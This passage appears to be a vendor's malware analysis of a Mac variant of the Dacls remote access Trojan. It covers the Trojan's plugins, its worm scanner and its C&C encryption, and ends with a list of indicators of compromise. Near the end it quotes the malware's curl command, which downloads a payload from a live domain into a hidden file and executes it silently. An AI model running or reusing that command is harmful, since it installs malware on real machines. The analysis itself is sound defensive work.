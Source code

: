  File Plugin The file plugin has the capability to read, delete, download, and search files within a directory. The only difference between the Mac and Linux version is that the Mac version does not have the capability to write files (Case 0).     Process plugin The process plugin has the capability of killing, running, getting process ID and collecting process information.     If the “/proc/%d/task” directory of a process is accessible, the plugin obtains the following information from the process where %d is the process ID: Command line arguments of the process by executing “/proc/ %/cmdline” Name, Uid, Gid, PPid of the process from the “/proc/%d/status” file.  Test plugin The code for the Test plugin between Mac and Linux variant is the same. It checks the connection to an IP and Port specified by the C&C servers. RP2P plugin The RP2P plugin is a proxy server used to avoid direct communications from the victim to the actor’s infrastructure.     LogSend plugin The Logsend plugin contains three modules that:  Check connection to the Log serverScan network (worm scanner module)Execute long run system commands    This plugin sends the collected logs using HTTP post requests.     An interesting function in this plugin is the worm scanner. The “start_worm_scan” can scan a network subnet on ports 8291 or 8292. The subnet that gets scanned is determined based on a set of predefined rules. The following diagram shows the process of selecting the subnet to scan.     Socks plugin The Socks plugin is the new, seventh plugin added to this Mac Rat. It is similar to the RP2P plugin and acts as an intermediary to direct the traffic between bot and C&C infrastructure. It uses Socks4 for its proxy communications.     Network Communications C&C communication used by This Mac RAT is similar to the Linux variant. To connect to the server, the application first establishes a TLS connection and then performs beaconing and finally encrypts the data sent over SSL using the RC4 algorithm.       Both Mac and Linux variants use the WolfSSL library for SSL communications. WolfSSL is an open-source implementation of TLS in C that supports multiple platforms. This library has been used by several threat actors. For example, Tropic Trooper used this library in its Keyboys malware.    The command codes used for beaconing are the same as the codes used in Linux.dacls.  This is to confirm the identity of the bot and the server.    The RC4 key is generated by using a hard-coded key.     Variants and detection We also identified another variant of this RAT which downloads the malicious payload using the following curl command:  curl -k -o ~/Library/.mina https://loneeaglerecords.com/wp-content/uploads/2020/01/images.tgz.001 > /dev/null 2>&1 && chmod +x ~/Library/.mina > /dev/null 2>&1 && ~/Library/.mina > /dev We believe this Mac variant of the Dcals RAT is associated with the Lazarus group, also known as Hidden Cobra and APT 38, an infamous North Korean threat actor performing cyber espionage and cyber-crime operations since 2009.  The group is known to be one of the most sophisticated actors, capable of making custom malware to target different platforms. The discovery of this Mac RAT shows that this APT group is constantly developing its malware toolset. Malwarebytes for Mac detects this remote administration Trojan as OSX-DaclsRAT.       IOCs 899e66ede95686a06394f707dd09b7c29af68f95d22136f0a023bfd01390ad53 846d8647d27a0d729df40b13a644f3bffdc95f6d0e600f2195c85628d59f1dc6 216a83e54cac48a75b7e071d0262d98739c840fd8cd6d0b48a9c166b69acd57d d3235a29d254d0b73ff8b5445c962cd3b841f487469d60a02819c0eb347111dd d3235a29d254d0b73ff8b5445c962cd3b841f487469d60a02819c0eb347111dd loneeaglerecords[.]com/wp-content/uploads/2020/01/images.tgz.001  67.43.239.146 185.62.58.207 50.87.144.227